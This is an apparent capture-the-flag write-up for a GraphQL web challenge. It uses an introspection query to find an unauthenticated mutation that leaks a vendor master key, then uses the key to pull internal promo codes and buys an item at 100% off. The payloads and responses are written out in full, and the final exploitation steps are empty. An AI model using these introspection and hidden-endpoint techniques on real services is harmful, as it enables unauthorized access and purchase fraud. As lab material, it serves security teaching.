

# Used Goods of Tomorrow

## Inspecting the interface and API

The HTML and `/static/app.js` reveal that:

- Checkout calls the `placeOrder(listingId, promoCode)` mutation.
- The cart is stored only in `localStorage`; the server still accepts `listingId` and `promoCode` directly from the client.

## Finding hidden fields with GraphQL introspection

Payload:

```json
{
  "query": "{ __schema { queryType { fields { name args { name type { kind name ofType { kind name } } } } } mutationType { fields { name args { name type { kind name ofType { kind name } } } } } } }",
  "variables": {}
}
```

The following fields appear in `mutationType`:

```text
register(username: String!, password: String!)
login(username: String!, password: String!)
placeOrder(listingId: ID!, promoCode: String)
vendorTerminalSync(terminalId: ID)
```

The following fields appear in `queryType`:

```text
listings
listing(id: ID!)
myAccount
promoCodes(vendorKey: String!)
```

`vendorTerminalSync` is not called by the interface, while `promoCodes` requires a `vendorKey`. These are the two fields to investigate next.

## Obtaining the vendor master key

```json
{
  "query": "mutation { vendorTerminalSync { terminalId status firmware vendorKey note } }",
  "variables": {}
}
```

Response:

```json
{
  "data": {
    "vendorTerminalSync": {
      "terminalId": "TERM-00",
      "status": "ONLINE",
      "firmware": "vterm-beta-0.9.7",
      "vendorKey": "VND-MASTER-21d5f80206dffb6fa9ad5722",
      "note": "Diagnostics nominal. Remember to disable this endpoint before public launch."
    }
  }
}
```

The endpoint returns the key without authentication.

## Using the vendor key to retrieve internal promotions

```json
{
  "query": "query($k: String!) { promoCodes(vendorKey: $k) { code description percentOff appliesTo } }",
  "variables": {
    "k": "VND-MASTER-21d5f80206dffb6fa9ad5722"
  }
}
```

Response:

```json
{
  "data": {
    "promoCodes": [
      {
        "code": "SCOUT-10",
        "description": "New-scout welcome bonus: 10% off any single listing.",
        "percentOff": 10,
        "appliesTo": null
      },
      {
        "code": "ATOMIC-25",
        "description": "Appliance clearance: 25% off the Atomic Toaster.",
        "percentOff": 25,
        "appliesTo": "1001"
      },
      {
        "code": "FOUNDERS-100",
        "description": "Founders’ comp — 100% off Lot #4042. Internal use only.",
        "percentOff": 100,
        "appliesTo": "4042"
      }
    ]
  }
}
```

The promotion to use is `FOUNDERS-100`. It applies only to listing `4042` and provides a 100% discount, so the number of credits to pay is zero.

## Exploitation

Create an account with an initial balance of 500 credits:


Add Lot #4042 to the cart, enter the promo code, and purchase it for 0 credits:




## Flag

```text
sun{1_l0v3_fr33_stuff}
```
